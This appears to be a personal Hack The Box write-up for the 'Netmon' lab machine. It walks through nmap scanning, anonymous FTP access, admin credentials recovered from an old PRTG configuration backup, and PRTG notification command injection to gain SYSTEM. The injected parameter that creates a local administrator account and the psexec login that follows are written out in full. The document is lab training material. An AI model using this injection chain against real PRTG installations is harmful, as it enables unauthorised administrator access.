 ```yaml
---
title: "Netmon HTB"
date: 2024-07-17T16:51:04-07:00
draft: false
---
```


## Summary 
In this box we find and FTP server with Anonymous FTP login allowed. This will lead us to the credentials for admin access to an Paessler PRTG bandwidth monitor with the version PRTG/18.1.37.13946 found by nmap and later confirmed by the admin panel. This we find to be vulnerable CVE-2018-10253 with a CVSS 3.x score of 7.5 High. This will lead to the exploit that will get us "nt authoruty\system".

## Given 
IP=10.10.10.152

## Enumeration 

```sh
-[Wed Jul 17-14:30:20]-[jmk@parrot]-
-[~/Documents/Netmon]$ nmap -Pn -p- -oN nmap-p $IP --min-rate=1000
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-07-17 14:30 PDT
Nmap scan report for 10.10.10.152
Host is up (0.092s latency).
Not shown: 65522 closed tcp ports (conn-refused)
PORT      STATE SERVICE
21/tcp    open  ftp
80/tcp    open  http
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
445/tcp   open  microsoft-ds
5985/tcp  open  wsman
47001/tcp open  winrm
49664/tcp open  unknown
49665/tcp open  unknown
49666/tcp open  unknown
49667/tcp open  unknown
49668/tcp open  unknown
49669/tcp open  unknown

```

```sh
-[Wed Jul 17-14:31:45]-[jmk@parrot]-
-[~/Documents/Netmon]$ nmap -p 21,80,135,445,5985,47001,49664,49665,49666,49667,49668,49669 -sCV -v -oN nmap-sCV $IP
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-07-17 14:35 PDT
<snip>
PORT      STATE SERVICE      VERSION
21/tcp    open  ftp          Microsoft ftpd
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| 02-03-19  12:18AM                 1024 .rnd
| 02-25-19  10:15PM       <DIR>          inetpub
| 07-16-16  09:18AM       <DIR>          PerfLogs
| 02-25-19  10:56PM       <DIR>          Program Files
| 02-03-19  12:28AM       <DIR>          Program Files (x86)
| 02-03-19  08:08AM       <DIR>          Users
|_11-10-23  10:20AM       <DIR>          Windows
| ftp-syst:
|_  SYST: Windows_NT
80/tcp    open  http         Indy httpd 18.1.37.13946 (Paessler PRTG bandwidth monitor)
|_http-server-header: PRTG/18.1.37.13946
|_http-favicon: Unknown favicon MD5: 36B3EF286FA4BEFBB797A0966B456479
|_http-trane-info: Problem with XML parsing of /evox/about
| http-title: Welcome | PRTG Network Monitor (NETMON)
|_Requested resource was /index.htm
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
135/tcp   open  msrpc        Microsoft Windows RPC
445/tcp   open  microsoft-ds Microsoft Windows Server 2008 R2 - 2012 microsoft-ds
5985/tcp  open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
47001/tcp open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
49664/tcp open  msrpc        Microsoft Windows RPC
49665/tcp open  msrpc        Microsoft Windows RPC
49666/tcp open  msrpc        Microsoft Windows RPC
49667/tcp open  msrpc        Microsoft Windows RPC
49668/tcp open  msrpc        Microsoft Windows RPC
49669/tcp open  msrpc        Microsoft Windows RPC
Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows

Host script results:
| smb-security-mode:
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-time:
|   date: 2024-07-17T21:36:12
|_  start_date: 2024-07-17T21:28:18
| smb2-security-mode:
|   3:1:1:
|_    Message signing enabled but not required

```

We see "ftp-anon: Anonymous FTP login allowed (FTP code 230)"
so lets login and see what is accessible

## FTP 
```sh
-[Wed Jul 17-14:36:20]-[jmk@parrot]-
-[~/Documents/Netmon]$ ftp $IP
Connected to 10.10.10.152.
220 Microsoft FTP Service
Name (10.10.10.152:jmk): Anonymous
331 Anonymous access allowed, send identity (e-mail name) as password.
Password:
230 User logged in.
Remote system type is Windows_NT.
ftp> ls
229 Entering Extended Passive Mode (|||50054|)
125 Data connection already open; Transfer starting.
02-03-19  12:18AM                 1024 .rnd
02-25-19  10:15PM       <DIR>          inetpub
07-16-16  09:18AM       <DIR>          PerfLogs
02-25-19  10:56PM       <DIR>          Program Files
02-03-19  12:28AM       <DIR>          Program Files (x86)
02-03-19  08:08AM       <DIR>          Users
11-10-23  10:20AM       <DIR>          Windows
226 Transfer complete.
<snip>
cd Public -> Users -> Desktop
ftp> get user.txt
local: user.txt remote: user.txt
229 Entering Extended Passive Mode (|||50062|)
150 Opening ASCII mode data connection.
100% |*************************************************|    34        0.39 KiB/s    00:00 ETA
226 Transfer complete.
34 bytes received in 00:00 (0.39 KiB/s)
<snip>
cd /programdata/Paessler/PRTG Network Monitor
<snip>
get 'PRTG Configuration.old.bak' 
exit

```
looking up where the PRTG Configuration [file](https://kb.paessler.com/en/topic/463-how-and-where-does-prtg-store-its-data) should be
```sh
-[Wed Jul 17-14:48:18]-[jmk@parrot]-
-[~/Documents/Netmon]$ cat user.txt
b53<snip>73e

```

looking inside 'PRTG Configuration.old.bak' 
note to self: in vim to [search](https://linuxize.com/post/vim-search/) use '/' and then type search pattern
press 'n' for next and 'N' for previous, for words `/\<words\>`
/db 
![dbuser-dbpass.png](/old/dbuser-dbpass.png)

this user and password will not work 
It should have been obvious to me to try a variation of the password like 
so prtgadmin:PrTg@dmin2019

## Web Admin 

so now that we are logged in we see the version information
![PRTG-Version.png](/old/PRTG-Version.png)

```sh
-[Wed Jul 17-15:32:47]-[jmk@parrot]-
-[~/Documents/Netmon]$ searchsploit PRTG 18.1.37
--
 Exploit Title           |  Path
----
PRTG Network Monitor < 18.1.39.1648 - Stack Overflow (Denia | windows_x86/dos/44500.py
----
Shellcodes: No Results


-[Wed Jul 17-15:41:11]-[jmk@parrot]-
-[~/Documents/Netmon]$ searchsploit --copy  windows_x86/dos/44500.py
  Exploit: PRTG Network Monitor < 18.1.39.1648 - Stack Overflow (Denial of Service)
      URL: https://www.exploit-db.com/exploits/44500
     Path: /usr/share/exploitdb/exploits/windows_x86/dos/44500.py
    Codes: CVE-2018-10253
 Verified: False
File Type: Python script, Unicode text, UTF-8 text executable
Copied to: /home/jmk/Documents/Netmon/44500.py

```

note: CVE-2018-10253
![nist-cve-discription.png](/old/nist-cve-discription.png)

I could not get 44500.py to work, so I kept looking and found out the by setting up a notification in the admin dashboard I could run psexec.py and get sysadmin. 

the step to set up 
Setup -> Account Settings -> Notifications 
add new notification

Leave the default fields as they are and scroll tell "Execute Program" 
for "Program File" use "Demo exe notification -outfile.ps1"
and for "Parameter" use 
`abc.txt | net user htb abc123! /add ; net localgroup administrators htb /add`
then save the file and and to the right of your notification click the edit icon and the bell so the trigger works 

Note to reader 
this part i got from the official write up. When I changed creeds to "jmk:jmk222!" And the file name to "mytest"
`jmk.txt | net user jmk jmk222! /add ; net localgroup administrators jmk /add`
I am not sure why it was not working maybe do to having made htb creeds first notification that i added? In the write-up there is a link to [this](https://codewatch.org/2018/06/25/prtg-18-2-39-command-injection-vulnerability/) they use `test.txt;net user pentest p3nT3st! /add`
so i must be making another mistake 

## System Admin 
```sh
 python psexec.py htb:'abc123!'@$IP
Impacket v0.11.0 - Copyright 2023 Fortra

[*] Requesting shares on 10.10.10.152.....
[*] Found writable share ADMIN$
[*] Uploading file cXrYsDRc.exe
[*] Opening SVCManager on 10.10.10.152.....
[*] Creating service pNwj on 10.10.10.152.....
[*] Starting service pNwj.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.14393]
(c) 2016 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
nt authoruty\system
<snip>
C:\Users\Administrator\Desktop> type root.txt
6c9<snip>c27

```

